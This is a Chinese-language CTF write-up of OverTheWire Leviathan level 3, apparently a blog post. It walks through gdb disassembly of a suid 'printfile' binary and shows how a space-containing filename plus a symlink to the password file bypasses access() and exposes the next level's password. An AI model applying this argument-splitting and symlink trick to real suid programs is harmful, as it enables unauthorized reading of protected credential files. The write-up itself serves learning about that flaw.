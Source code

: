 ========================================
 OverTheWire Leviathan
========================================

.. post:: 2016-01-01
   :tags: CTF
   :author: LA
   :language: zh

地址: `OverTheWire: Leviathan <http://overthewire.org/wargames/leviathan/>`_.

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 `这里 <https://github.com/SilverRainZ/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md>`_\ ，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 ``suid`` 权限的可执行文件 ``printfile``\ ，属主是 ``leviathan3``\ ，用户组是 ``leviathan2``\ ，带 ``suid`` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

.. code-block:: text

   leviathan2@melinda:~$ ll printfile  
   -r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
   leviathan2@melinda:~$ ./printfile 
   *** File Printer ***
   Usage: ./printfile filename
   leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
   You cant have that file...

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 ``/etc/leviathan_pass/leviathan3`` 却提示 ``You cant have that file...``\ ，上 gdb 分析看看。

以下是 ``diaasm main`` 的结果，假设执行了 ``r filename``\ ：

.. code-block:: objdump

   0x0804852d <+0>:     push   %ebp
   0x0804852e <+1>:     mov    %esp,%ebp
   0x08048530 <+3>:     and    $0xfffffff0,%esp
   0x08048533 <+6>:     sub    $0x230,%esp
   0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
   0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
   0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
   0x08048546 <+25>:    mov    %eax,0x22c(%esp)
   0x0804854d <+32>:    xor    %eax,%eax
   0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; argc 和 1 比较，此处 argc 应该为 2
   0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
   0x08048555 <+40>:    movl   $0x8048690,(%esp)
   0x0804855c <+47>:    call   0x80483d0 <puts@plt>
   0x08048561 <+52>:    mov    0x1c(%esp),%eax
   0x08048565 <+56>:    mov    (%eax),%eax
   0x08048567 <+58>:    mov    %eax,0x4(%esp)
   0x0804856b <+62>:    movl   $0x80486a5,(%esp)
   0x08048572 <+69>:    call   0x80483b0 <printf@plt>
   0x08048577 <+74>:    mov    $0xffffffff,%eax
   0x0804857c <+79>:    jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
   0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
   0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
   0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
   0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; 参数二：int amode
   0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
   0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
   0x08048597 <+106>:   test   %eax,%eax
   0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
   0x0804859b <+110>:   movl   $0x80486b9,(%esp)
   0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
   0x080485a7 <+122>:   mov    $0x1,%eax
   0x080485ac <+127>:   jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048599 <+108> 的跳转
   0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
   0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
   0x080485b5 <+136>:   mov    (%eax),%eax              ; /
   0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; ...: argv[1]
   0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
   0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
   0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
   0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 ``access`` 函数， man 是这样说的：

..

   The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, **using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.**


而 ``suid`` 权限改变的只是进程的 ``euid``\ ，因此当你执行 ``./printfile /etc/leviathan_pass/leviathan3`` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是\ `\ **不可行** <http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs>`_\ 的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 ``Permission denied``\ 。

到这里我就没辙了，只能看别人的 writeup 了：\ `OverTheWire Leviathan Wargame Solution 2 <https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/>`_\ ，看完发现脑洞确实不够大。

**Solution:**  

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 ``./printfile "flag here"``\ ，对于 access 函数来说是执行了 ``access("flag here", 4)``\ , 检查对 ``flag here`` 这个文件的访问权限，而对 cat 来说是这样的 ``system("cat flag here")``\ ，因此可以利用这个区别来绕过 access 函数。

.. code-block:: shell

   leviathan2@melinda:/tmp$ mkdir slove
   leviathan2@melinda:/tmp$ cd slove
   leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
   leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
   leviathan2@melinda:/tmp/slove$ ls
   flag  flag here
   leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
   Ahdiemoo1j
   /bin/cat: here: No such file or directory

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

.. code-block:: shell

   leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
   __libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
   access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
   snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
   system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                            = 0
   +++ exited (status 0) +++

元旦快乐，希望新的一年不要那么痛苦了。

--------------------------------------------------------------------------------

.. isso::
